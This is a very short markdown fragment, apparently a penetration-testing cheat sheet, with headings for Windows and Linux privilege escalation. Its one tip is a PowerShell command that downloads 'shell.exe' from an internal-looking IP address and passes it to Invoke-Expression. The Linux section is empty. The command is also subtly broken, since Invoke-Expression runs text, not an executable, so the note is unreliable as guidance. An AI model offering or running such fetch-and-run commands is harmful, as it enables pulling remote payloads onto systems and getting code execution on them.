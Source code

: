 # Windows Privilege Escalations
## Important tips

- Use powershell for file transfers

``` iex(iwr http://10.10.10.100/shell.exe) ```

# Linux Privilege Escalations
